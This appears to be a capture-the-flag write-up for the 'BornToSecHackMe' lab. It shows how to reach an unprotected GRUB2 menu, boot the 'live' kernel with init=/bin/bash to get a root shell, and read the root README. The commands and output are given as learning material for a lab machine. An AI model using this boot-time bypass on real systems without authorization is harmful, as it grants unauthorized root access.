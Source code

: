### Second Writeup

>GRUB2 exploit (https://www.debian.org/doc/manuals/securing-debian-manual/lilo-passwd.en.html)

While holding the `shift` key, we can see the GRUB2 menu.
We can see that we have a kernel image called live and that's it.


If there is no password for the grub menu, we can try to boot the kernel with the init command to see what happens.

```bash
boot: live init=/bin/bash
error: unexectedly disconnected from boot status daemon

bash: no job control in this shell
root@BornToSecHackMe:/# 
``` 

As we can see, we are now in a shell with root privileges.
```bash
root@BornToSecHackMe:/ whoami
-> root
root@BornToSecHackMe:/ cd /root
root@BornToSecHackMe:/root ls
-> README
root@BornToSecHackMe:/root cat README
-> CONGRATULATIONS !!!!
   to be continued...
```

This exploit is caused because there is no password for the grub menu and the kernel is not configured to drop privileges. So everyone can access the kernel and execute commands with root privileges.